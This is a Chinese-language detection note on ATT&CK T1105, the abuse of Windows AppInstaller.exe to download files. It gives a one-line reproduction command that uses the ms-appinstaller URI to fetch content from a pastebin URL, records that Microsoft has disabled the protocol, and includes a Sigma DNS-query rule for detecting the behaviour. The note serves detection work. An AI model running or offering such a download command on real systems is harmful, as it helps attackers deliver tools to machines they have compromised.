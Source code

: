 # T1105-win-入口工具转移-AppInstaller.exe(白名单、失效)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
AppInstaller.exe用于在 Windows 10 上安装AppX/MSIX应用程序的工具。

**路径:**
```
C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
```

AppInstaller.exe 由 URI 的默认处理程序生成，它尝试从 URL 加载/安装包并保存在
```
C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

## 检测日志

windows安全日志

## 测试复现

```
C:\Users\liyang>start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
```

不过很遗憾，微软禁用ms-appinstaller 协议，用以阻止恶意软件传播。
## 测试留痕
无

## 检测方法/思路
这里参考Sigma官方规则。
```
title: AppInstaller Attempts From URL by DNS

id: 7cff77e1-9663-46a3-8260-17f2e1aa9d0a

description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL

status: experimental

date: 2021/11/24

author: frack113

tags:

- attack.command_and_control

- attack.t1105

references:

- https://twitter.com/notwhickey/status/1333900137232523264

- https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/

logsource:

product: windows

category: dns_query

detection:

selection:

Image|startswith: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_

Image|endswith: \AppInstaller.exe

condition: selection

falsepositives:

- Unknown

level: medium

```


## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

AppInstaller.exe

<https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/>

Sigma-win_dq_lobas_appinstaller

<https://github.com/SigmaHQ/sigma/blob/bdb00f403fd8ede0daa04449ad913200af9466ff/rules/windows/dns_query/win_dq_lobas_appinstaller.yml>